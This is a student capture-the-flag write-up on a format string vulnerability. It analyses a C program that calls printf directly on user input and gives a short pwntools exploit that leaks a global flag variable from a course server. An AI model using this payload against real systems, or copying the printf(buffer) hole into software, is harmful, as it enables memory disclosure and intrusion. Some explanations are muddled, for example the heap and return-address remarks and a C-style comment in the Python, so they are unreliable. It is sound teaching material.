 # Format Strings

##First Flag

###File Analysis

As good practice, we start off by investigating what we're being given. Therefore we be analysing what's inside "_main.c_":

Looking inside the code we can see that it:

-Creates an array "_flag_" accessibable throughout the file whose size is given with _FLAG_BUFFER_SIZE_, which is 40.

```C
#define FLAG_BUFFER_SIZE 40 

char flag[FLAG_BUFFER_SIZE]; // file size is 40!
```

- Stores the _flag.txt_ content inside of the flag array.

```C
FILE *fd = fopen("flag.txt","r");

if(fd != NULL) {
    fgets(flag, FLAG_BUFFER_SIZE, fd);
}```

-Reads 32 bytes of _user input_, stores inside of the character array _buffer_ and then prints it.

```C

        char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```
-An _if_ statement that executes different messages in case we achieved in getting the flag or not.

```C
if(0) {
    printf("I like what you got!\n%s\n", flag);
} else {
    printf("\nDisqualified!\n");
}
```
###Execution Analysis

We will now be analysing how _main.c_ behaviour works on _program_ (which is _main.c_ compilled) with the command:

```bash
checksec --file=program
```

![Alt text](./images/ctf7-1.png)

We can see here that here that the binaries aren't randomize(is not a _PIE_, Position-Independent Executable), but there are canaries, which prevents buffer overflow attacks as they will be detected

Using that knowlegde, we can assume that we are going to use a _format string attack_ as we have a _printf_ that prints an input stored in a 32 byte buffer. 

When we run the program, whenever the function _load___flag_ it will put the flag into the the buffer which, as a global variable, will be stored in the heap. Using _dbg_ we can find out the memory address where the function return address. We will run in the console 
```Bash
gdb program
p load_flag # 
```

![Alt text](./images/ctf7-2.png)

So we now know that the return address is **_0x8049256_**.

We will now prepare the payload by making some changes to the given __exploit_example.py__.

```python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

address = 0x804c060 # the address of "flag"
payload = address.to_bytes(4, byteorder='little') + b"%s" //transforms it into a string format

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

![Alt text](./images/ctf7-3.png)

Thus, the flag we get is **flag{a36ac6c2b6ecee59b102cf406c2e354d}**!


